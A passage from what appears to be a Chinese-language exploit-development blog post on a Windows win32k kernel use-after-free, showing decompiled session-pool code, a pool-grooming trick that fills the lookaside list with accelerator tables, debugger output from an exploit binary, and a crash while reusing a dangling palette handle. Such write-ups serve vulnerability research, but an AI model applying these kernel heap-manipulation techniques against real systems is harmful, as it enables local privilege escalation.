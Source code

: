 ```cpp
    if ( is_SESSION_POOL_MASK && is_BASE_POOL_TYPE_MASK2 == 1 )
    {
      if ( block_size2 <= ExpSessionPoolSmallLists )
      {
        v39 = ExpSessionPoolLookaside - 0x80 + ((unsigned __int64)block_size2 << 7);
        goto LABEL_46;
      }
LABEL_62:
      pool_desc3 = pool_desc2;
      goto LABEL_63;
    }
```

知道了问题的原因，那么就好解决问题了。既然 sbtrack 是被扔进了 lookaside list 中导致 chunk 没法合并，那么我们可以事先释放一下与 sbtrack 相同大小的 accelerator table，提前填满 lookaside list，这样 sbtrack 就会被正常释放掉了。

```
kd> g
SBTrack: ffffde90c50d2820
Next Chunk: ffffde90c50d28a0
Pool page ffffde90c50d2820 region is Paged session pool
 ffffde90c50d2000 size:  810 previous size:    0  (Allocated)  Usac Process: ffffb28fd6566080
*ffffde90c50d2810 size:   80 previous size:  810  (Allocated) *Usst Process: ffffb28fd6566080
		Owning component : Unknown (update pooltag.txt)
 ffffde90c50d2890 size:  770 previous size:   80  (Allocated)  Usac Process: ffffb28fd6566080
win32kfull!xxxSBTrackInit+0x72:
ffffdec2`f9811dea 488bd8          mov     rbx,rax
kd> g
Break instruction exception - code 80000003 (first chance)
myexp!fnDWORDHook+0xd8:
0033:00007ff6`df2f4408 cc              int     3
kd> !pool ffffde90c50d2820
Pool page ffffde90c50d2820 region is Paged session pool
 ffffde90c50d2000 size:  810 previous size:    0  (Allocated)  Usac Process: ffffb28fd6566080
*ffffde90c50d2810 size:  7f0 previous size:  810  (Free)      *Usst
		Owning component : Unknown (update pooltag.txt)
```

至此，这个困扰我两周的问题终于解决了。

# NtGdiSetLinkedUFIs

回到我们最开始的思路，尝试用悬空的 palette 对象句柄操作内存，最终会发现还是不行，会得到一个 page fault。

```
kd> k
 # Child-SP          RetAddr               Call Site
00 ffffce01`fe163e28 fffff801`2d87ff22     nt!DbgBreakPointWithStatus
01 ffffce01`fe163e30 fffff801`2d87f7d2     nt!KiBugCheckDebugBreak+0x12
02 ffffce01`fe163e90 fffff801`2d7ef0d7     nt!KeBugCheck2+0x922
03 ffffce01`fe1645a0 fffff801`2d7fa3a9     nt!KeBugCheckEx+0x107
04 ffffce01`fe1645e0 fffff801`2d7f9b3c     nt!KiBugCheckDispatch+0x69
05 ffffce01`fe164720 fffff801`2d7f54ad     nt!KiSystemServiceHandler+0x7c
06 ffffce01`fe164760 fffff801`2d690284     nt!RtlpExecuteHandlerForException+0xd
07 ffffce01`fe164790 fffff801`2d68f063     nt!RtlDispatchException+0x404
08 ffffce01`fe164e80 fffff801`2d7fa482     nt!KiDispatchException+0x143
09 ffffce01`fe165540 fffff801`2d7f8957     nt!KiExceptionDispatch+0xc2
0a ffffce01`fe165720 fffff801`2d6c722d     nt!KiPageFault+0x217
0b ffffce01`fe1658b0 ffffdec2`f99ee08d     nt!ExReleasePushLockExclusiEx+0x1d
0c ffffce01`fe165910 ffffdec2`f96bf14b     win32kbase!HmgShareLockCheck+0x2dd
0d ffffce01`fe165990 ffffdec2`f96be828     win32kfull!EPALOBJ::EPALOBJ+0x1b
0e ffffce01`fe1659c0 ffffdec2`f96be677     win32kfull!GreGetPaletteEntries+0x28
0f ffffce01`fe165a10 fffff801`2d7f9f13     win32kfull!NtGdiDoPalette+0xb7
10 ffffce01`fe165a90 00007ff8`75b51964     nt!KiSystemServiceCopyEnd+0x13
11 000000ca`718ff748 00007ff8`756bd197     win32u!NtGdiDoPalette+0x14
```